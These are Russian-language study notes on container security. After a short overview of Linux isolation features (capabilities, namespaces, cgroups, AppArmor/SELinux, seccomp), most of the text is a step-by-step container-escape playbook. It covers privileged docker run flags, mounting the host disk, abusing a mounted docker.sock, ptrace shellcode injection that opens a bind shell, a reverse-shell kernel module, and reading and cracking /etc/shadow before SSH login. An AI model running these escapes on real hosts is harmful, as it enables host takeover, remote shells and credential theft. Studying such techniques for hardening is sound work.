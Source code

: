 Безопасность контейнеров

### Меры безопасность Linux
* Capabilities - полномочия ОС
```
https://man7.org/linux/man-pages/man7/capabilities.7.html
/proc/sys/kernel/cap_last_cap
$ capsh --print # проверить что сейчас в системе
```
* Linux namespace - абстракция над ресурсами ОС
```
ll /proc/$BASHPID/ns/ # отображает ссылки на пространства имён (namespaces) текущего или указанного процесса
lrwxrwxrwx 1 dev dev 0 Sep 18 12:15 uts -> 'uts:[4026532193]'
	4026532193 - это inode пространства имён. Если два процесса имеют одинаковый идентификатор для одного типа пространства, они находятся в одном изолированном окружении.
	cgroup → Управление ресурсами (cgroups).
	ipc → Изоляция межпроцессного взаимодействия (IPC).
	mnt → Изоляция файловой системы (точки монтирования).
	net → Сетевая изоляция (интерфейсы, порты, маршруты).
	pid → Изоляция дерева процессов (PID).
	pid_for_children → Будущие дочерние процессы унаследуют это пространство имён PID.
	user → Изоляция пользователей и групп.
	uts → Изоляция hostname и domainname.
```
* Cgroups - изоляция ресурсов хоста (CPU, RAM, ввод/вывод)
* AppArmor или SELinux - ограничения приложений LSM
* Seccomp - ограничения системных вызовов к ядру eBPF

Как выбраться из контейнера

### Отключить меры защиты при запуске контейнера
Любой флаг критичен
```
docker run -it \
	--privileged \ 
	--cap-add=ALL \
	--security-opt apparmor=unconfined \
	--security-opt seccomp=unconfined \
	--security-opt label:disable \
	--pid=host \
	--userns=host \
	--uts=host \
	--cgroupns=host \
```

### Монтирование хостовой системы в контейнер (нужно CAP_SYS_ADMIN, выключен AppArmor)
```
# Запускаем уязвимый контейнер
(host)$docker run -it --cap-drop=ALL --capadd=
SYS_ADMIN --security-opt apparmor=unconfined --device=/dev/:/
ubuntu bash

# Монтируем хостовую файловую систему
root@a99040cc6319:/# mount /vda2 /mnt
root@a99040cc6319:/# ls /mnt
bin dev home lib32 libx32 media opt root sbin srv tmp var
boot etc lib lib64 lost+found mnt proc run snap sys usr
```

### Использование примонтированного Docker Socket (/var/run/docker.sock)
```
# Запускаем уязвимый контейнер
(host)$ docker run -it -v /var/run/docker.sock:/run/docker.sock docker:dind /bin/sh

# Внутри контейнера запускаем новый привилегированный контейнер
~# docker run -it --privileged -v /:/host/ ubuntu bash -c "chroot /host/"

```

### Инъекция shell-code (нужно SYS_PTRACE и -pid=host)
```
# В контейнере должны быть тулзы
apt install vim # or any other editor
apt install gcc
apt install net-tools
apt install netcat

# Запускаем сервер HTTP для PoC и уязвимый контейнер
(host)$ /usr/bin/python3 -m http.server 8080
(host)$ docker run -it --pid=host --cap-add=SYS_PTRACE --security-opt apparmor=unconfined ubuntu bash

# Эксплуатация уязвимости
# List process that runs on the host and container.
ps -eaf | grep "/usr/bin/python3 -m http.server 8080" | head -n 1
# Copy and paste the payload from inject.c https://gitlab.com/devijoe/docker-attacks/-/blob/main/attack_3%20-%20ShellCode/inject.c
vim inject.c
gcc -o inject inject.c
# Inject the shellcode payload that will open a listener over port 5600
./inject <PID>
# Bind over port 5600
nc <HOST-IP> 5600
```

### Инъекция модуля ядра (нужно SYS_MODULE)
```
# Запускаем уязвимый контейнер
(host)$ docker run -it --cap-add=SYS_MODULE ubuntu:latest bash

# Атака
git clone https://gitlab.com/devijoe/docker-attacks/-/blob/main/attack_4%20-%20Kernel%20Module%20injection/reverse-shell.c
cd docker-attacks/attack_4 - Kernel Module injection
make
nc -lnvp 4444 & /usr/sbin/insmod reverse-shell.ko
```

### Чтение секретов с хоста (нужно DAC_READ_SEARCH)
```
# Запуск уязвимого контейнера
(host)$ sudo docker run -it --cap-add=DAC_READ_SEARCH ubuntu bash

# Чтение хэша пароля от рута из хоста
# Copy the shocker.c https://gitlab.com/devijoe/docker-attacks/-/blob/main/attack_5%20-%20Reading%20and%20Overriding%20host%20files/shocker.c?ref_type=heads
vim shocker.c
gcc -o shocker shocker.c
# Use the shocker to read files from host:./shocker /host/path /container/path
./shocker /etc/passwd passwd
./shocker /etc/shadow shadow
# Combine passwd and shadow files 
unshadow passwd shadow > password
# Use John the Ripper to crack passwords
john password
# Connect to the host with the John the ripper’s output credentials
ssh <USER-NAME>@<HOST-IP>
password: <password from john’s output>
```
